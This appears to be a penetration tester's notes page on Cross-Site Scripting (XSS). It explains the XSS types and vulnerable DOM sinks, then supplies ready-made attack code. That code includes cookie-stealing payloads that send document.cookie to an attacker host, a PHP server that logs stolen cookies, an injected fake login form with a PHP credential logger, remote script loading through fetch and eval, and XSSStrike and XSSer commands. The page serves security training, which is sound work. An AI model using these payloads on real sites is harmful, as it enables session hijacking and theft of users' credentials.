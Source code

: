 ```yaml
---
title: Cross-Site Scripting (XSS)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2022-09-03 09:00:00 +0200
categories: [Notes, Web Application]
tags: [Notes, Web Application, Cross-Site Scripting]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Basics
Cross-Site Scripting (XSS) is an attack where user controlled input gets executed on the victims client.
There are 3 main types of XSS:
    - Stored XSS (Gets stored in the Backend and usually persists over sessions)
    - Reflected gets passed to the beckend and executes the script on the client
    - DOM gets executed on the client only

XSS could also be blind which means while testing we might not see vulnerability right away. It is something to keep in mind, perhaps use payload which sends an callback to "our"/"testing" server.

Most commonly used JS functions that write to DOM object and where direct users input should be sanitized are:

- document.write()
- DOM.innerHTML
- DOM.outerHTML
- ...

jQuery functions:

- add()
- after()
- append()
- ...

Payload would usualy be formed like this:
```
- <script></script> tag
- JS Event Handlers like <img onload="">
- Using something like: javascript: url
- using eval function
- ...
```

Sometimes Payload needs to escape the intended function, usualy using something like this:

- `'>`
- `">`

Something handy for PenTesters/Bounty Hunters are Polyglot functions which incorporate different bypasses in single payload. Do have a look here: https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot


## Cookie Stealer
```javascript
document.location='http://IP/index.php?c='+document.cookie;
new Image().src='http://IP/index.php?c='+document.cookie;
```

### Simple PHP Server that goes along
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

# Scripts
## Phishing HTML Form One-Liner
```javascript
document.write('<h3>Please login to continue</h3><form action=http://IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

### Simple PHP Server to go along
Checking access log or having netcat would also work. Running simple server that logs callbacks is however very neat.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("credentials.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVERS_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Save as php file and run it with `php -S x.x.x.x:PORT`

# More advanced payloads
Script will be loaded remotely
```
s = document.createElement("script")
s.src = "https://IP/payload.js"
document.body.appendChild(s)

fetch("https://IP/payload.js").then(r=>r.text()).then(t=>eval(t))

// either use decode base64 or eval on normal payload.
eval(atob(location.hash.substr(1)))
```

# Tools

## XSSStrike
```shell-session
python3 xsstrike.py -u "http://IP/?fullname=asd&username=asd&password=asd&email=XSS"
```

## XSSer
```
xsser -u http://IP -g "/?fullname=asd&username=asd&password=asd&email=XSS" --auto
```

# References

- https://academy.hackthebox.eu (awesome resource with many great and to-the-point labs.)
- YesWeHack Dojo: https://dojo-yeswehack.com/XSS/Theory
- PortSwigger Web Academy: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


